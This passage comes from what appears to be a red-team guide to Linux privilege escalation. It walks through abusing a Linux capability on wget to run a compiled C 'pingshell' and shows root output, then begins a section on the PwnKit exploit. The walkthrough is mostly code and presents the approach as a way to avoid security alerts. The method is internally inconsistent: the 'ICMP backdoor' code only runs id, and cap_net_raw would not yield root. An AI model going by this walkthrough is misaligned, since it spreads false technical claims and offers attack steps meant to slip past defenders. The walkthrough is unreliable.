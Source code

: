 4. **Exploiting Capabilities (Yet Another Method)**:
   ```bash
   # Verified capabilities
   getcap -r / 2>/dev/null | grep wget
   /usr/bin/wget = cap_net_raw+ep
   
   # Created a simple script to abuse net_raw capability for ICMP backdoor
   cat > /tmp/pingshell.c << EOF
   #include <stdio.h>
   #include <stdlib.h>
   #include <sys/socket.h>
   #include <netinet/in.h>
   #include <netinet/ip.h>
   #include <netinet/ip_icmp.h>
   #include <unistd.h>
   #include <string.h>
   
   int main() {
       while(1) {
           system("id > /tmp/pingshell_output");
           sleep(5);
       }
       return 0;
   }
   EOF
   
   # Compiled and executed with capabilities inherited from wget
   gcc -o /tmp/pingshell /tmp/pingshell.c
   /usr/bin/wget --use-askpass=/tmp/pingshell https://example.com
   
   # Verified the output
   cat /tmp/pingshell_output
   uid=0(root) gid=0(root) groups=0(root)
   ```

This example demonstrates how GTFOBins techniques can provide multiple privilege escalation paths using only tools already present on the system. This "living off the land" approach minimizes the need to introduce malicious files that might trigger security alerts.

## PwnKit, DirtyCow, and Other Specific Exploits

While automated scanning tools help identify potential vulnerabilities, understanding specific high-impact exploits is essential for red teamers. This section covers some of the most reliable privilege escalation exploits for Linux systems.

### PwnKit (CVE-2021-4034)

PwnKit is a vulnerability in the pkexec component of PolKit (formerly PolicyKit) that allows local privilege escalation to root. It affects nearly all Linux distributions and is particularly reliable.

#### Technical Details
